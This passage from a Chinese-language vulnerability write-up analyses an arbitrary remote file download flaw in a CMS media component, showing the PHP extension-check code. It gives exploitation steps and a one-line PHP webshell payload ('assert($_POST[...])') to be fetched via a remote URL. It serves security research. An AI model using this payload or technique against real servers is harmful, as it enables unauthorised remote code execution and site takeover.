 上面简单分析了一下代码，逻辑不是很难，主要是我不是很了解这个cms的框架，只能看个大概了。

## 0x04 远程文件任意下载

上面分析了这么多，这个洞到底出现在哪里呢？

其实主要就是未对文件扩展名进行校验，其实他们是有校验方法的，只是没有调用的不是时候：

```php
<?php
  ....
private function _setMediaType() {
		// is this audio, image, or not allowed?
		$media_type = "-1";
		$path_info = pathinfo($this->file_info->name);
		$extension = strtolower($path_info["extension"]);
		for ($i = 0; $i < count($this->mediatypes); $i++) {
			$mimetypes = explode(" ", $this->mediatypes[$i]['extensions']);
			if (in_array($extension, $mimetypes)) {
				$media_type = $i;
			}
		}
		if ($media_type == "-1")
			$this->file_info->error = 6;
		$this->file_info->media_type = $media_type;
		/// print_r($this->file_info);die;
		$mediaTypeName = $this->mediatypes[$media_type]['name'];

		return $mediaTypeName;
	}
	....
?>
```

这里是遍历了白名单扩展名，进行比较……

![上传页面][0x01]

利用上面的过程非常简单，只需要在URL Link中输入一个扩展名为PHP的远程文件，注意，它的代码必须是这样：
```php
<?php
echo '<?php assert($_POST["test"]);?>';
?>
```

因为如果直接保存一句话木马，它还是会被我们的PHP环境解析，当然也可以将PHP的解析去掉 ~ 

![上传页面][0x02]

![上传页面][0x03]

在组件上提交这个URL：

![上传页面][0x04]


[0x01]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-02-07/0x01.png
[0x02]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-02-07/0x02.png
[0x03]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-02-07/0x03.png
[0x04]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-02-07/0x04.png
[0x05]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-02-07/0x05.png